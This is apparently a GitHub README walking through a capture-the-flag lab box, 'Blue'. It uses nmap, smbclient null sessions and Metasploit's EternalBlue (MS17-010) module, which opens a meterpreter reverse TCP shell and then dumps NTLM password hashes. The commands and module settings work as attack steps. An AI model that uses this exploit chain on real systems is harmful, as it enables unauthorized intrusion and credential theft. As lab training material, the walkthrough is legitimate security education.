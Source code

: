 # New-Capstone-Lab-Blue-Machine-

<h2>**IP Address provided: 10.0.2.5**</h2>

This repository provides a comprehensive guide to the Blue Machine which is a Capture the Flag (CTF) challenge designed to test your skills in network scanning, web application testing, password cracking, privilege escalation, and system exploitation. This machine provides an opportunity to utilise a variety of tools and techniques commonly used in real-world penetration testing. You will encounter a combination of web-based vulnerabilities, system misconfigurations, and network-related challenges.

### Features:
- NMAP (Network Mapper)
NMAP is used for network scanning, identifying live hosts, and enumerating open ports/services on the target machine. Expect to perform full-service enumeration and version detection to discover potential vulnerabilities.
- Metasploit (Framework)
Metasploit is a penetration testing framework that helps security professionals identify and exploit vulnerabilities in networks, systems, and applications

### Prerequisites:
Before starting the Academy Machine challenge, it is recommended to have basic knowledge and hands-on experience with the following tools and concepts:

- Metasploit

<h2>Environments Used </h2>

- <b>Linux</b>
- <b>Windows</b>
- <b>VirtualBox</b>

<h2>Walk-through:</h2>

Started out by using Nmap to dearch for open ports on the target 10.0.2.5

nmap -A -p- -T4 10.0.2.5

![image](https://github.com/user-attachments/assets/801f2eaf-bd8b-466e-aa1c-920ccb0aa0c0)

I can see that port 139 tcp netbios-ssn Microsoft Windows netbios-ssn is open  
I can also see that port 445 tcp Windows 7 Ultimate 7601 Service Pack 1 Microsoft-ds (workgroup: WORKGROUP)

I will research the exploits for both of these.

**Port 139**  
NetBIOS stands for Network Basic Input Output System. It is a software protocol that allows applications, PCs, and Desktops on a local area network (LAN) to communicate with network hardware and to transmit data across the network. Software applications that run on a NetBIOS network locate and identify each other via their NetBIOS names. A NetBIOS name is up to 16 characters long and usually, separate from the computer name. Two applications start a NetBIOS session when one (the client) sends a command to “call” another client (the server) over TCP Port 139

**Port 445**  
While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. SMB stands for ‘Server Message Blocks’. Server Message Block in modern language is also known as Common Internet File System. The system operates as an application-layer network protocol primarily used for offering shared access to files, printers, serial ports, and other sorts of communications between nodes on a network.  
For instance, on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use, as you point out, port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP**.**

I decided to attempt port 445 first as this was the one that stood out the most to me.

I listed the SMB shares using smbclient -L 10.0.2.5 and was asked for a password, i hit enter and ws able to view the share names.

I tried accessing admin with no password.  
smbclient \\10.0.2.5\ADMIN$  
Password for [WORKGROUP\kali]:  
tree connect failed: NT_STATUS_ACCESS_DENIED

I tried accessing C$ with no password.  
smbclient \\10.0.2.5\C$  
Password for [WORKGROUP\kali]:  
tree connect failed: NT_STATUS_ACCESS_DENIED

I was able to access IPC$ with no password.  
smbclient \\10.0.2.5\IPC$  
Password for [WORKGROUP\kali]:  
Try "help" to get a list of possible commands.

i tried ls  
smb: > ls  
NT_STATUS_INVALID_PARAMETER listing *

Further information gathering found this port 445 has an exploit called eternal blue.

![image](https://github.com/user-attachments/assets/6e6eb516-bddf-47bd-92a7-74d113102505)

Using Metasploit i searched for eternal blue and a few come up, i decided to use an auxiliary to start off with as this will be a check before launching an attack.

Unfortunately my windows lab crashed so i received connection time out.

Restarted the windows lab and retested.

msfconsole reloaded and ran search for eternal blue

![image](https://github.com/user-attachments/assets/2383d7df-56ef-40d7-acfb-d13f890170ec)

used no 1 (use 1)  
options  
set RHOSTS to IP Address of the machine scanning.  
Run the scan against the machine.

[+] 10.0.2.5:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)  
[*] 10.0.2.5:445 - Scanned 1 of 1 hosts (100% complete)  
[*] Auxiliary module execution completed

Now we have confirmed that the system is vulnerable to eternal blue we look at what exploits are available.  
search eternal blue to bring up the menu again.  
no 3 looks promising so we will use this one as the other says win8 and we know its a windows 7 machine.

use 3  
options  
set rhosts to IP Address  
this module has a check feature so lets check it.

Type check and enter  
msf6 exploit(windows/smb/ms17_010_eternalblue) > check

[*] 10.0.2.5:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check  
[+] 10.0.2.5:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)  
[*] 10.0.2.5:445 - Scanned 1 of 1 hosts (100% complete)  
[+] 10.0.2.5:445 - The target is vulnerable.

This shows the same as the scanner so we know this should work.

So we now need to set a payload.

We know from the previous scans that this machine is 64 bit and sometimes payloads are set to 32bit so we need to be on the safe side and set the payload to 64bit.  
we are also going to use a meterpreter shell as we want a nice interface and we are going to set a reverse-tcp

Type in options.  
Set LHOST to eth0 or your IP Address.

RUN this

![image](https://github.com/user-attachments/assets/50d7aa97-413b-4d8f-a12a-e72c4bcc4642)

set payload windows/x64/meterpreter/reverse_tcp

Run  
This will run through trying to access, sometimes it wont happen the first time so give another go. Mine worked first time which was great.

Sorry, my screenshot wouldnt work so i took a picture of the screen.

![image](https://github.com/user-attachments/assets/459ae81b-4061-4093-a6d7-d429950a640d)

Eternal Blue has been out for sometime now but is still successful in infiltrating machines that have not been updated or cant be updated.

Type in Hashdump.

meterpreter > hashdump  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5:::  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:f580a1940b1f6759fbdd9f5c482ccdbb:::  
user:1000:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

Now we have the hashes for the Administrator, Guest, Home Group and User:1000.

We can use this to try and crack it, we can use pass the hash etc.




